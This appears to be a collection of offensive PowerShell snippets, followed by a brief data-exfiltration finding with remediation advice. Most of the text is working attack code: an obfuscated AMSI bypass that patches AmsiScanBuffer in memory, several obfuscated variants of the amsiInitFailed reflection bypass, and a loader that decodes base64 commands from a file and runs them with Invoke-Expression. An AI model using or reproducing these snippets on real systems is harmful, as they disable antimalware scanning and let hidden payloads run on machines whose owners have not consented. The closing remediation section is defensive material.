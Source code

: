 # AMSI-Bypass
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
	[DllImport("kernel32")]
 	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
  	[DllImport("kernel32")]
   	public static extern IntPtr LoadLibrary(string name);
    	[DllImport("kernel32")]
     	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
NEW AMSI:
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));
(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})


S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

=============================================================

! Define the path to the text file containing the Base64-encoded PowerShell commands

$encodedFilePath = "path\to\your\encodedfile.txt"

! Read the Base64-encoded content from the text file

$encodedContent = Get-Content -Path $encodedFilePath

! Decode the Base64-encoded content

$decodedBytes = [System.Convert]::FromBase64String($encodedContent)

$decodedContent = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

! Execute the decoded PowerShell commands

Invoke-Expression $decodedContent


=============================================================

https://github.com/ELMERIKH/Needle/tree/main
https://docs.netapp.com/us-en/ontap-cli-97/application-provisioning-config-modify.html#description

Data Exfiltration via Malicious Scripts

Description: Data exfiltration occurs when malicious scripts, such as PowerUp and PowerView, are used to scan and extract data from an Active Directory (AD) environment. These scripts can enumerate users, groups, permissions, and other sensitive information, which attackers can then exfiltrate.

Impact: Unauthorized access to and exfiltration of AD data can lead to significant data breaches, exposing sensitive organizational information, compromising system integrity, and facilitating further attacks. This can result in severe financial losses, reputational damage, legal penalties, and loss of customer trust.

Remediation: Implement robust monitoring and alerting for unusual script activities and data access patterns. Use endpoint protection and detection systems to block and alert on the execution of known malicious scripts. Regularly audit and restrict administrative privileges. Educate employees about the risks of malicious scripts and enforce strict execution policies.

Implement script whitelisting with AppLocker or Windows Defender Application Control to ensure only trusted and signed scripts are executed, monitor encoding/decoding activities, and use EDR solutions to detect and block suspicious script execution. Restrict PowerShell usage with Constrained Language Mode and enable logging. Segment networks to limit lateral movement and regularly train employees to recognize and report suspicious activities.
